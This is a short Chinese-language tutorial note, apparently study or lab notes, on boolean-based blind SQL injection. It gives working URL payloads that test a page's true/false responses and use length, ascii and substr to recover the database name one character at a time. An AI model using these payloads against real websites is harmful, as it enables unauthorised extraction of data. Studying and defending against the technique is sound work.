 # 布尔盲注

适用于页面只有真值、假值两种情况。手工布尔盲注费时费力。

1. 先判断闭合方式/页面的真假性：and 1=1, and 1=2

2. ```
   ?id=1' and length((select database())) > 9 --+
   ```

3. 通过调整参数得知 select database() 返回值的长度

4. ```
   ?id=1' and ascii((select database())) > 100 --+
   ```

5. 通过调整参数得知 database 的第一个字符的 ascii 码值

6. 利用 substr 选择查看其他位置上的字母（substr() 和 substring() 没有区别，下标从1开始）

7. ```
   ?id=1' and ascii(substr((select database()),2,1)) > 100 --+
   ```

8. 依此类推重复之前题目的方法